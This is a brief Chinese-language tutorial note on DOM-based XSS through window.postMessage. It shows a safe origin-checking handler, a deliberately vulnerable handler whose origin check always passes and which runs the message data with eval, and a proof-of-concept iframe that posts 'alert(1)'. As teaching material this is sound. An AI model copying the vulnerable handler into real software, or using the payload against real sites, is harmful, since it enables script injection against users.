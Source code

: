 ## DOM-XSS postMessage

window.postMessage方法可以安全地实现跨域数据传输。通常情况下，两个页面通信需要遵守同源协议(Same-origin policy)，而postMessage方法提供了一种受控机制来规避此限制。只要正确的使用，这种方法就很安全。但是如果使用不当，则存在相当大的风险。

### 常见对象
```
window.postMessage
window.addEventListener("message",callbackFunction,event)
event.origin
event.data
```

### 常见取值函数命名
```
postMessage
handlerMessage
onmessage
receiveMessage
```

### 常见取值函数代码
```javascript
function receiveMessage(event)
{
  if (event.origin !== "http://example.com:8080"){
    return;
  }
  callback(event.data);
}
window.addEventListener("message", receiveMessage, false);
```

### 常见形式
```
function receiveMessage(event) {
    if (event.origin.indexOf("https://mysite.com") >= -1) { //判断event.origin的方式不对，导致可以使用https://a.com/https://mysite.com进行绕过，从而控制来源数据包
        eval(event.data);
    }
}
window.addEventListener("message", receiveMessage, false);
```

### example poc
<iframe src="https://xss.com/" onload="foo()"></iframe>
<script>
    function foo() {
        window[0].postMessage("alert(1)", "*");
    }
</script>
